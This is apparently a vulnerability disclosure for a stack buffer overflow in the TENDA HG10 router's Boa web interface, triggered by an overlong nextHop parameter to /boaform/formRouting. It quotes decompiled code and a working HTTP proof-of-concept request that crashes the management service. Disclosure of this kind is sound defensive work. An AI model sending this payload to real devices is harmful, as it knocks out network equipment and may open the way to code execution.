


# Information

## Summary

**Title:**   
TENDA HG10 Stack-Based Buffer Overflow in `formRoute` via the `nextHop` parameter

**Vendor:** TENDA

**Product:** TENDA HG10 AC1200 Dual-Band Wi-Fi xPON ONT

**Vulnerability Type:**  Stack-Based Buffer Overflow (CWE‑121)

**Impact:**   
Remote stack corruption via the web management interface. Denial of service was verified, and the stack overwrite may also enable arbitrary code execution if control data is successfully hijacked.

## Affected Products and Versions

**Confirmed affected model:**

- TENDA HG10

**Tested / observed vulnerable firmware versions:**

- US_HG7_HG9_HG10re_300001138_en_xpon

**Firmware download page (for reference):**   
https://www.tendacn.com/material/show/105719

> The vulnerability was verified on firmware version US_HG7_HG9_HG10re_300001138_en_xpon

## Overview

The Boa web management component in TENDA HG10 exposes a route-handling interface associated with `formRoute` and reachable through `/boaform/formRouting`. During request processing, the handler reads the user-controlled `nextHop` parameter by calling `boaGetVar(...)` and then copies that value into a stack-based buffer with `strcpy(...)`.

The root cause is the absence of any effective length validation or truncation before the copy operation. The destination object is the stack buffer `v67`, which is shown in the decompiled code as `DWORD v67[5]`. Because the buffer is only 20 bytes long, an attacker can supply an overlong `nextHop` value and overflow the stack frame, causing the Boa service to crash. Based on the nature of the overwrite, further exploitation for arbitrary code execution cannot be excluded.

## Vulnerability Details

The vulnerable function (from the router’s firmware, decompiled) is:

```c
DWORD v67[5]; // [sp+35Ch] [bp-5Ch] BYREF
...
v24 = (char *)boaGetVar(a1, (int)"nextHop", (int)"");
v16 = v24;
...
if ( v25 && inet_aton(v24, &v61) )
{
  n2742 = 2746;
  goto LABEL_39;
}
v80[2] = v67;
strcpy(v67, v16);
```

Decompiled evidence showing attacker-controlled input acquisition and the unsafe copy:


Decompiled stack layout showing that `v67` is a stack buffer:


1. **Unvalidated external input**  
   The handler obtains the `nextHop` value directly from the incoming HTTP request through `boaGetVar(a1, (int)"nextHop", (int)"")`. **Command string construction**  
   The externally controlled `nextHop` string is assigned to `v16` and then copied into `v67` with `strcpy(v67, v16);`. Because `v67` is declared as `DWORD v67[5]`, the destination storage is limited to 20 bytes, while `strcpy` performs an unbounded copy until a NUL terminator is reached.
   
3. **Execution with system‑level privileges**  
   The vulnerable operation occurs inside the router’s Boa management process. A successful overwrite therefore affects a privileged device management context; in testing, the immediate result was a crash of the management service, and a sufficiently controlled overwrite could have broader security impact.

Overall, this matches **CWE‑121: Stack-based Buffer Overflow** .

## Attack Scenario and Exploitability

### Preconditions

- Network reachability to the device’s Boa web management interface.
- Ability to submit a crafted POST request to `/boaform/formRouting` using an overlong `nextHop` value. Depending on deployment and access-control configuration, administrative access to the web interface may be required.

### Example Exploit (PoC)

The following proof-of-concept request supplies an excessively long `nextHop` parameter to trigger the stack overflow in the `formRoute` handler:

```http
POST /boaform/formRouting HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:149.0) Gecko/20100101 Firefox/149.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://192.168.188.140:8888
Connection: keep-alive
Referer: http://192.168.188.140:8888/admin/login.asp
Upgrade-Insecure-Requests: 1
Priority: u=0, i

destNet=1.1.1.0&subMask=255.255.255.0&interface=1&nextHop=00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001.1.1.1&addRoute=1&submit-url=/route.asp
```

Captured request showing the crafted `nextHop` payload and the lack of a normal response:



### Verification of Exploit

To verify the issue, send the crafted POST request shown above to the vulnerable device. In the supplied test results, the server stopped responding after the request was sent. A subsequent attempt to access the administrative web interface failed, indicating that the Boa service had crashed as a result of the overflow condition.

Observed post-exploitation behavior: the administrative web interface became unreachable after the malicious request was processed.


